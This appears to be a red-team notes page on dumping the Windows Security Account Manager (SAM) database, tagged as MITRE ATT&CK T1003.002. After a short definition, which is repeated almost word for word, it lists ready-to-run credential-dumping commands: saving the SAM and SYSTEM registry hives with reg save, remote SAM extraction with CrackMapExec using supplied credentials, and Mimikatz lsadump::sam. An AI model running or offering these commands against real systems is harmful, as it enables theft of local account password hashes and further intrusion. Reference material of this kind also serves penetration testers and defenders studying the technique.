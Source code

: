```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.002
---
```


# Security Account Manager (SAM)

The Security Accounts Manager (SAM) is a database file in Windows that contains usernames and passwords for local accounts, typically those identified from the `net user` command.

The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command.

### Dumping the SAM

```bash
# Manually extracting the SAM
reg save HKLM\sam sam
reg save HKLM\system system

# Dumping the SAM remotely with CrackMapExec
crackmapexec smb $ip -u $username -p $password --sam

# Dumping the SAM with Mimikatz
mimikatz lsadump::sam
```

